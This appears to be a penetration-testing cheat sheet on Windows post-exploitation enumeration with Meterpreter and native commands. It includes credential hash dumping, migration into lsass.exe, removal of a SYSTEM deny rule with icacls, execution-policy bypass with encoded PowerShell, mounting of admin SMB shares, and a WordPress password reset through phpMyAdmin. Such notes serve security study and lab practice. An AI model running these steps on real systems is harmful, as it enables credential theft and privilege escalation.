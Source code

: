 # Enumerating System Information
1) **meterpreter commands :**
```shell
- getuid
- sysinfo
- show_mount # show mounts/drives of system is connected with
- hashdump   # get acounts hash dumps
```

2) **windows commands :**
``` powershell
$ hostname
$ systeminfo # you can grab hotfix ids

# for hotfix ids (alternative command)
$ wmic qfe get Caption,Description,HotFixID,InstalledOn 
```

---
# Enumerating Users & Groups
1) **meterpreter commands :**
```shell
$ getprivs # what kind of privileges have for current user
 
# logged on users enum | msfconsole
$ search logged_on >> post module : enum_logged_on_users 
```

2) **windows commands :**
```powershell
## user enum
$ whoami       # current user
$ whoami /priv # current user privileges
$ query user   # current logged on  user
$ net users    # all other users available in system
$ net user administrator ## info enum for admin

## group enum
$ net localgroup     # all local groups available in system
$ net localgroup administrators # members that are parts of administrator
$ net localgroup "Remote Desktop Users"
```

---
# Enumerating Network Information

1) **meterpreter commands:**
```shell
- ipconfig
- route
```
2) **windows commands :**
```powershell
$ ipconfig | ipconfig /all # internet interfaces  
$ route print   ## route info

## enumerating other deviced or arp enum
$ arp -a

## services & ports running ...
$ netstat -ano

## firewall configuration
>> (old ! will not work on latest )netsh firewall show state 
$ netsh advfirewall firewall # help for firewall
$ netsh advfirewall firewall show 

```


---
# Enumerating Processes & Services

1) **meterpreter commands :**
```shell
- ps                #list all running process
- pgrep lsass.exe   # grep any mention service / process
- mirgate -N lsass.exe 'OR' migrate '<id>'
```

2) **windows commands :**
```powershell
## enumerating services
$ net start
$ wmic service list brief # list of services running in background
$ tasklist /SVC  #  list of all processes running on the system along with their associated services
$ schtasks /query /fo LIST # schedule tasks information ; use /v for verbose 
$ schtasks /run /tn vulntask # run schedule tasks
```

---
# File Permissions
```powershell
# via powershell
# access control list
meterpreter > execute -f powershell.exe -H -i
PS > Get-Acl .\flag | Format-List
PS > (Get-Acl .\flag).Access
PS > $acl = Get-Acl .\flag
PS > $acl.Access | Where-Object { $_.IdentityReference -eq "NT AUTHORITY\SYSTEM" -and $_.AccessControlType -eq "Deny" }
# Remove that rule (complex unless scripted)

# cmd
# access control list
C:\> icacls flag
C:\> icacls flag /remove:d "NT AUTHORITY\SYSTEM"
```

---
# Automating Enumeration

1) **Metasploit Post Modules :** 
```shell
- post/windows/gather/win_privs # privileges enumeration
- post/windows/gather/checkvm # check if system is vm or not
- search enum_application # enum installed apps
- search enum_patches # Windows Gather Applied Patches
```

2) **Scripts :**
- [[Windows Privilege Escalation#Tools]]

---------
# Some other powershell commands
```powershell
# powershell command to execute any ps1 script (bypass execution policy)
$ powershell.exe -ExecutionPolicy Bypass -File .\script.ps1 -OutputFilename Enum.txt
		'OR'
$ powershell -ep bypass -e '<base64 encode script> OR script.ps1'

# use migrate -N explorer.exe or lsass.exe for high privelege or perform privesc 
# access smb or enumerate smb
$ net view <ip> 10.10.4.2
$ net use D: \\10.10.4.2\Documents 
$ net use K: \\10.10.4.2\K$
$ dir D:

## starting - stoping services
$ net stop wampapache    # stoping apache service
$ net start wampapache   # starting apache service

# inside phpmyadmin panel (phpmyadmin web server not in cmd)
$ [main database whcih enumerated] - *wordpress*
$ > wordpress >> wp_users >> edit > user_pass (change encryption ) >> set new password

```

---